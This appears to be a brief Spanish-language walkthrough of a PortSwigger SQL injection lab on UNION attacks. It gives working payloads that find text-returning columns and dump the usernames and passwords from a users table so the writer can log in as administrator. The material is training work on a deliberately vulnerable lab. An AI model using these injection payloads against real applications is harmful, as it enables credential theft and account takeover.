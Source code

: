 # 4 - UNION attack, retrieving multiple values in a single column

> This lab contains an SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.
>
>  The database contains a different table called `users`, with columns called `username` and `password`.
>
>  To solve the lab, perform an [SQL injection UNION](https://portswigger.net/web-security/sql-injection/union-attacks) attack that retrieves all usernames and passwords, and use the information to log in as the `administrator` user.

* Determinamos el numero de columnas que responden text data. Son dos obtenidas con `'+UNION+SELECT+NULL,'abc'--`
* Luego hacemos el siguiente payload : 

```text
'+UNION+SELECT+NULL,username||'~'||password+FROM+users--
```

![](../../../.gitbook/assets/imagen%20%28652%29.png)

